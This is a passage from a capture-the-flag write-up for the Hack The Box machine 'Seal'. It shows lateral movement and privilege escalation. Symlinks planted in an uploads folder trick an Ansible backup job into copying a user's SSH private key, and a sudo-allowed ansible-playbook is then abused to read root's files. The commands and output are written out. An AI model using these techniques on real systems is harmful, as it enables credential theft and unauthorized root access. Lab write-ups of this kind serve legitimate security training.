 Based off the ansible play running, we can try making fake files and soft linking (`ln -s`) them to ssh keys to then be copied over. I.e. `ln -s /home/luis/.ssh/ asdf.txt`. After some poking around to find a writable dir that would be copied, we create some links to this guy luis's ssh keys. nice.
```
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ ls -al
ls -al
total 8
drwxrwxrwx 2 root   root   4096 Oct 14 00:46 .
drwxr-xr-x 7 root   root   4096 May  7 09:26 ..
lrwxrwxrwx 1 tomcat tomcat   23 Oct 14 00:45 asdf.txt -> /home/luis/.ssh/rsa.pub
lrwxrwxrwx 1 tomcat tomcat   19 Oct 14 00:46 pp.txt -> /home/luis/.ssh/rsa
-rw-r----- 1 tomcat tomcat    0 Oct 14 00:45 priv.txt
```
It works! `chmod 600 luis.key` to let us use the copied key followed by `ssh -i luis.key luis@seal.htb` for access to the user

## Luis -> Root

One of the first commands to run is `sudo -l`, which hits here for `ansible`
```
luis@seal:/tmp$ sudo -l Matching Defaults entries for luis on seal: env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
User luis may run the following commands on seal: (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

run.yml is a play I wrote up to copy the root flag
```yml
- hosts: localhost
  tasks:
  - name: rooooot
    shell:
      "cp /root/root.txt /tmp/root.txt"
```
After running it, we have root!

![](/assets/images/htb/seal/win.png)

